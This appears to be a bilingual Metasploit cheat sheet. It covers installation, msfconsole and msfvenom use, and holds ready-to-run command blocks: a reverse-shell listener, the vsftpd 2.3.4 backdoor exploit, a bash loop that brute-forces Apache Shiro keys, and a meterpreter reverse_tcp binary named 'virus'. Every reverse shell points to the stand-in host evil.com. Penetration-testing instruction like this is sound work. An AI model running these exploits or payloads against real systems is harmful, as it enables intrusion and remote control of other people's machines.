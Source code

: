The world’s most used penetration testing framework.

## 1. Install

安装

```
┌──(nemo@debian)-[~]
└─$ curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > ~/msfinstall \
&& chmod 755 ~/msfinstall \
&& ~/msfinstall && rm -f ~/msfinstall
```

## 2. Init

```
┌──(nemo@debian)-[~]
└─$ msfdb init
```

## 3. Usage

### 3.1. msfconsole

启动数据库

```
┌──(nemo@debian)-[~]
└─$ msfdb start
```

进入控制台

```
┌──(nemo@debian)-[~]
└─$ msfconsole
```

Listen

```
msf > use exploit/multi/handler
show payloads
set PAYLOAD linux/x86/meterpreter/reverse_tcp
show options
set LHOST evil.com
set LPORT 4444
run
```

Exploit

```
msf > search vsftpd 2.3.4
use exploit/unix/ftp/vsftpd_234_backdoor
show payloads
set PAYLOAD cmd/unix/interact
show options
set RHOSTS example.com
set RPORT 21
set LHOST/CHOST evil.com
set LPORT/CPORT 4444
show targets
set TARGET 0
check
run
```

Script

```
#!/bin/bash

RHOSTS="example.com"
RPORT="80"
MODULE="exploit/multi/http/shiro_rememberme_v124_deserialize"
PAYLOAD="cmd/unix/reverse"
LHOST="evil.com"
LPORT="4444"
KEYFILE="$HOME/shiro_keys.txt"

while IFS= read -r KEY || [ -n "$KEY" ]; do
  echo "[*] Key: $KEY"
  msfconsole -q -x "use ${MODULE}
set RHOSTS ${RHOSTS}
set RPORT ${RPORT}
set ENC_KEY ${KEY}
set PAYLOAD ${PAYLOAD}
set LHOST ${LHOST}
set LPORT ${LPORT}
exploit
exit" 

done < "$KEYFILE"

```

```
msf > help       # 列出所有命令帮助
<command> -h     # 列出指定命令的常用帮助
help <command>   # 列出指定命令的完整帮助
back             # 返回
exit             # 退出
check            # 探测漏洞
run              # 执行模块
run -j           # 后台执行模块
jobs             # 列出后台任务
jobs -v          # 列出后台任务详情
jobs -K <Id>     # 终止所有后台任务
jobs -k <Id>     # 终止指定后台任务
sessions         # 列出会话
sessions -i <Id> # 进入会话
sessions -k <Id> # 终止会话
```

### 3.2. msfvenom

生成病毒

```
┌──(nemo@debian)-[~]
└─$ msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=evil.com LPORT=4444 -f elf -o ~/virus
```

---

References

- [Metasploit](https://www.metasploit.com/)
- [Installing Metasploit on Linux / macOS](https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html)

